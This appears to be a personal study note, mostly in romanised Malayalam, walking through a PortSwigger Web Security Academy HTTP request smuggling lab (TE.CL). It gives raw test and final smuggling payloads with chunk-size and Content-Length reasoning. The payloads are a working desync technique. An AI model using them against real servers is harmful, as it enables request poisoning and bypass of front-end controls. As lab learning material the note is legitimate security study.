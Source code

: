 POST / HTTP/1.1
Host: 0a7700db04db1af9c07f20fa00df00d4.web-security-academy.net
connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

5
abcde
0

-->ivide GET maati POST aaki. ith just test chyan vendi itta request aan.final payload vere varum
-->ivide transfer-encoding:chunked koduthu.karanam front end server content-lenth support chyila.so 0 yum athin sesham ulla 2 empty line um kodukuka
-->ivide content-lenth: 3  enn iitu.apol ee 5 enn ezhuthiyathin sesham `\r\nk`  varum.so 3 bytes aayi.ini athin sehsam ullath backend parse chyila.karnam backend transfer-encoding header support chyila
-->so ee request send chythal front end server full request send chyum.enit ath backend il ethumbol , backend content-lenth: 3 ennath mathrame parse chyu.so 5 ennath mathram parse chyum.baaki ullath adutha request aayi kanaum
-->so ini onnukoode send chythal ee abcde ennath response il append chythathayi kanam
-->ini final payload nokam :

									POST / HTTP/1.1
									Host: your-lab-id.web-security-academy.net
									Content-Type: application/x-www-form-urlencoded
									Content-length: 4
									Transfer-Encoding: chunked
									
									5c
									GPOST / HTTP/1.1
									Content-Type: application/x-www-form-urlencoded
									Content-Length: 15
									
									x=1
									0


-->0 kk shesham rand empty line iduka ok
-->ivide content-lenth: 4 enn itt so server ee 5c ennath mathram parse chyum.so baki ullathoke adutha request aayi kanum
-->front end server chunked aa parse chyuka so 0 varunath vere ullathellam eduth backend ilek ayakum
-->5c ennal 92 bytes ine encode chythathan.lab-1 il 0 enn koduthath pole aan ivide 5c. athayath 9 enn number in sehsam pine ellam hex aayitan kodukuka.athan oru reethi
-->ivide sumggled request il content-lenth: 15 enn kanam.sherikum 10 bytes mathrame ullu ie,`x=1\r\n0\...` .pakshe content lenth namuk kooduthal koduthalum kozhapam ila.korav kodukathirunamathi.vengil 15 pakaram 25 kodukam.9 onum patila
-->athupole ivide x=1 ennath veruthe koduthathan vere enthengilum 3 bytes verunath koduthalum mathi ie,abc
-->eni send adikuka.apol response ok varum.onude send adikumbol "Unrecognized method GPOST"  enn kanam.apol lab solve aayi

==============================================================
